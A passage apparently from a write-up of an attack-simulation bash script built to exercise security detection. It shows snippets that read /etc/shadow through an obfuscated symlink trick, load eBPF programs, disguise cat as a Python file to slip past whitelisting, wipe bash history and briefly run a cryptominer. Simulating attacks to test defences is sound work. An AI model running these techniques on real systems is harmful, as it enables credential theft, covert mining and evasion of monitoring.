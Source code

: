 this bit creates a proof file for the connection verification. it'll be useful for patching!

```bash
log "$CYAN" "Reading /etc/shadow"
ln -s $(rev<<<'wodahs/cte/') /tmp/1 && wc --files0-from /tmp/1
log "$GREEN" "Shadow file read using symlink trick"
```

this reverses the string `wodahs/cte/` to `/etc/shadow` and creates a symlink `/tmp/1` pointing to it. the line `wc --files0-from /tmp/1` tells `wc` to read null-separated filenames from the file. since `/tmp/1` is a symlink to `/etc/shadow`, `wc` will process the file as a list of filenames. 

```bash
log "$CYAN" "Executing ebpf loading and deleting the file after..."
$SPATH/www > /dev/null
log "$GREEN" "eBPF execution complete"
```

this is our eBPF exploitation. the `www` binary loads eBPF programs, which allows kernel-level hooks for monitoring and modifying system behaviour. 

```bash
log "$CYAN" "Executing renamed binary with evasive suffix"
cp `which cat` /tmp/a.py && /tmp/a.py /etc/hosts
log "$GREEN" "Evasion technique demonstration complete"
```

this copies a legitimate binary `cat` into `a.py`, making it look like a script. it's a very simple technique that bypasses application whitelisting.

we then clear the command history:

```bash
log "$CYAN" "Clearing bash history ..."
cat /dev/null > ~/.bash_history
log "$GREEN" "Bash history cleared"
```

and execute our cryptominer:

```bash
log "$CYAN" "Executing miner ...."
# Only run for 10 seconds to avoid hanging
timeout -k 2 10 $SPATH/xmx2 
log "$GREEN" "Mining attempt complete"
```

### runtime

when run, the attack sim looks something like this.

#### environment setup + recon

![log1](/log1.png)

the script checks for `/etc/ld.so.preload`, which isn't found. it tests write permissions in `/tmp`, `/var/tmp`, `/dev/shm`, `/bin`, `/sbin`, etc. all directories show green, meaning there is full write access.
